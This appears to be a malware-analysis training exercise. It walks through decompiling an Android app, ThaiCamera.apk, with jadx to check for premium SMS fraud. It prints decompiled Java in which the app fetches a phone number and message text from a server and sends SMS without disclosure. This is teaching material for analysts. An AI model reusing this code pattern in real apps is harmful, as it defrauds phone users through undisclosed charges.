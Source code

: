 # Exercise 2 - Reverse Engineer the DEX

## Goals:

1. Learn to analyze the Java decompilation of the DEX bytecode in jadx to understand what the Android application is doing.
2. Experience 1st hand how Android malware analysts apply reverse engineering to their context

## Context

You are a malware analyst for Android applications. You are concerned that this sample maybe doing premium SMS fraud, meaning that it sends an SMS to a premium phone number without disclosure & user consent. In order to flag as malware, you need to determine if the Android application is:

1. Sending an SMS message, and
2. That SMS message is going to a premium number, and
3. If there is an obvious disclosure, and
4. If the SMS message is only sent to the premium number after user consent.

## Instructions

- [x] ~If jadx is not already started, start jadx by opening the terminal in the VM and running the jadx-gui command in the terminal and open ThaiCamera.apk in the jadx GUI in the same way as in Exercise #1.~ If you haven't already executed it, run `jadx` against `ThaiCamera.apk` in the `samples/ThaiCamera` folder.

- [x] Remember that the manifest is available under “Resources” by clicking on AndroidManifest.xml. To analyze the DEX bytecode, you can ~click on classes under the source code tab to open each class~ browse through the classes under `ThaiCamera/sources`. jadx is a decompiler, rather than a disassembler, so it decompiles the DEX bytecode back to the Java. The decompiled Java will not look exactly the same as when the developer wrote it, however, it’s often pretty close to functionally correct.

- [x] Begin analyzing the classes you identified as starting points in Exercise #1. When I say analyze, it’s as simple as reading each line of decompiled output until you understand what a block of code is doing. Once you understand it, take a step back and evaluate the new information you learned against the questions you’re trying to answer with your analysis (Exercise Context). Then decide where to analyze next. If you come from a Java development background, think about reverse engineering as debugging.

The code in `Loading.java` appears to send SMS messages to a number that is returned from an HTTP request without asking disclosing that it is doing so. Relevant code:

```java
// com/cp/camera/Loading.java L66
JSONObject object = new JSONObject(loginByPost(operator));
this.content = object.getString("content");
this.service = object.getString("service");


// com/cp/camera/Loading.java L129
sendMessage(this.service, this.content);

// com/cp/camera/Loading.java L105
findViewById(R.id.button_sensms).setOnClickListener(new View.OnClickListener() {
    public void onClick(View v) {
        if (Build.VERSION.SDK_INT >= 23) {
            int checkCallPhonePermission = ContextCompat.checkSelfPermission(Loading.this.getApplicationContext(), "android.permission.SEND_SMS");
            if (!Loading.this.videoShare.equals(AppEventsConstants.EVENT_PARAM_VALUE_YES) || checkCallPhonePermission != 0) {
                ActivityCompat.requestPermissions(Loading.this, new String[]{"android.permission.SEND_SMS"}, 1);
            } else if (Loading.this.service != null && Loading.this.content != null) {
                Loading.this.sendMessage(Loading.this.service, Loading.this.content);
            }
        } else if (Loading.this.service != null && Loading.this.content != null) {
            Loading.this.sendMessage(Loading.this.service, Loading.this.content);
        }
    }
});

// com/cp/camera/Loading.java L167
public void sendMessage(String mobile, String content2) {
    Bundle bundle = new Bundle();
    bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
    this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);
    Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
    itSend.putExtras(bundle);
    SmsManager sms = SmsManager.getDefault();
    PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
    try {
        if (content2.length() > 70) {
            for (String msg : sms.divideMessage(content2)) {
                sms.sendTextMessage(mobile, null, msg, sentintent, null);
            }
            return;
        }
        sms.sendTextMessage(mobile, null, content2, sentintent, null);
    } catch (Exception e) {
        SharedPreferences.Editor editor = getSharedPreferences("videoLibrary", 0).edit();
        editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_NO);
        editor.apply();
        e.printStackTrace();
    }
}
```

## Conclusion

Yes, the app sends potentially premium messages without asking for permission
